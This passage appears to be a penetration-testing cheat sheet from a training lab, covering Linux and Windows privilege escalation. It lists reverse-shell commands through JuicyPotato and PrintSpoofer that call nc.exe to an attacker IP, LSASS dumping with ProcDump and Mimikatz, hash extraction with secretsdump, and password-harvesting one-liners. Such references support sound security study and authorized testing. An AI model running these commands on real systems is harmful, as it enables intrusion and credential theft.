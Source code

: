 Kernel version: `uname -a`

User run anything as another user: `sudo -l`

Find binaries with the SUID bit set: `find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null`

# Windows privilege escalation

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md

https://github.com/GhostPack/Seatbelt

Display running processes: `tasklist /svc`

View current user privileges: `whoami /priv`

Get all system users: `net user`

Display active network connections: `netstat -ano`

Connect using mssqlclient.py: `mssqlclient.py sql_dev@10.129.43.30 -windows-auth`, `enable_xp_cmdshell`, `xp_cmdshell whoami`

Escalate privileges with JuicyPotato: `c:\tools\JuicyPotato.exe -l 53375 -p c:\windows\system32\cmd.exe -a "/c c:\tools\nc.exe 10.10.14.3 443 -e cmd.exe" -t *`

Escalating privileges with PrintSpoofer: `c:\tools\PrintSpoofer.exe -c "c:\tools\nc.exe 10.10.14.3 8443 -e cmd"`

Take memory dump with ProcDump: `procdump.exe -accepteula -ma lsass.exe lsass.dmp`

Use MimiKatz to extract credentials from LSASS memory dump: ``sekurlsa::minidump lsass.dmp` and `sekurlsa::logonpasswords``

Extract hashes with secretsdump.py: `secretsdump.py -ntds ntds.dit -system SYSTEM -hashes lmhash:nthash LOCAL`

Confirming UAC is enabled: `REG QUERY HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System\ /v EnableLUA`

Search for files with the phrase "password": `findstr /SIM /C:"password" *.txt *ini *.cfg *.config *.xml`

Searching for passwords in Chrome dictionary files: `gc 'C:\Users\htb-student\AppData\Local\Google\Chrome\User Data\Default\Custom Dictionary.txt' | Select-String password`

Reading PowerShell history file: `gc (Get-PSReadLineOption).HistorySavePath`

Searching file contents for a string: `findstr /spin "password" *.*`

Search for file extensions: `dir /S /B *pass*.txt == *pass*.xml == *pass*.ini == *cred* == *vnc* == *.config*`

List saved credentials: `cmdkey /list`

Run all LaZagne modules: `.\lazagne.exe all`

Retrieve saved wireless passwords: `netsh wlan show profile`, `netsh wlan show profile ilfreight_corp key=clear`
